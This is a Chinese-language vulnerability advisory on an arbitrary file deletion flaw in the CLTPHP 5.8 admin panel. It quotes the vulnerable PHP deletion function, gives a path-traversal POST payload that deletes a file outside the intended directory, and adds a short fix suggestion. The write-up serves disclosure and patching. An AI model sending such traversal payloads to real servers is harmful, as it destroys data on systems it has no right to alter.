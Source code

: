 CLTPHP 5.8 后台任意文件删除漏洞
===============================

一、漏洞简介
------------

CLTPHP是基于ThinkPHP5开发，后台采用Layui框架的内容管理系统，

二、漏洞影响
------------

CLTPHP 5.8及之前版本

三、复现过程
------------

### 漏洞分析

`app/admin/controller/Database.php` 第221-248行：

    public function delSqlFiles() {  
      $batchFlag = input('param.batchFlag', 0, 'intval');  
      //批量删除  
      if ($batchFlag) {  
        $files = input('key', array());  
      }else {  
        $files[] = input('sqlfilename' , '');  
      }  
      if (empty($files)) {  
    \10.     $result['msg'] = '请选择要删除的sql文件!';  
    \11.     $result['code'] = 0;  
    \12.     return $result;  
    \13.   }  
    \14.  
    \15.   foreach ($files as $file) {  
    \16.     $a = unlink($this->datadir.'/' . $file);  
    \17.   }  
    \18.   if($a){  
    \19.     $result['msg'] = '删除成功!';  
    \20.     $result['url'] = url('restore');  
    \21.     $result['code'] = 1;  
    \22.     return $result;  
    \23.   }else{  
    \24.     $result['msg'] = '删除失败!';  
    \25.     $result['code'] = 0;  
    \26.     return $result;  
    \27.   }  
    \28. }  

在这段函数中，参数sqlfilename未经任何处理，直接带入unlink函数中删除，导致程序在实现上存在任意文件删除漏洞，攻击者可通过该漏洞删除任意文件。

### 漏洞复现

构造URL，成功删除根目录的1.txt文件

    http://www.0-sec.org/admin/Database/delSqlFiles.html

     
    POST: sqlfilename=..\\..\\1.txt

![11.png](/Users/aresx/Documents/VulWiki/.resource/CLTPHP5.8后台任意文件删除漏洞/media/rId26.png)

### 修复建议

> 对于要删除的文件，通过正则判断用户输入的参数的格式，看输入的格式是否合法。
